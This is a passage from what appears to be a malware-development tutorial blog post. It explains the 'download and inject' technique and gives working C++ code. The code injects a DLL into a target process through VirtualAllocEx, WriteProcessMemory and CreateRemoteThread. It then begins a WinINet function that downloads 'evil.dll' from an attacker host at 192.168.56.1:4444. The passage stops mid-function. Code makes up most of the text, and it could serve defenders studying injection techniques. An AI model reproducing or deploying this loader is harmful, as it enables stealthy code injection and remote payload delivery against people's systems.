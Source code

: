 *Download and execute* or in our case *download and inject* is interesting trick and designed to download payload or evil DLL from a url, with an emphasis on  `http`, and execute or inject it. The benefits to the *download/execute* (or *download/inject*) approach are that it can be used behind networks that filter all other traffic aside from HTTP. It can even work through a pre-configured proxy given that said proxy does not require authentication information.    

### practical example

First of all, let's go to consider [classic DLL injection](/tutorial/2021/09/20/malware-injection-2.html) malware. In the simplest case it will look like this:    

```cpp
/*
* classic DLL injection example
* author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process pid
  if ( atoi(argv[1]) == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

It's pretty simple as you can see.    
Here I want to add some simple logic for downloading our `evil.dll`. In the simplest case it will look like this:    

```cpp
// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://192.168.56.1:4444/evil.dll", 0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
```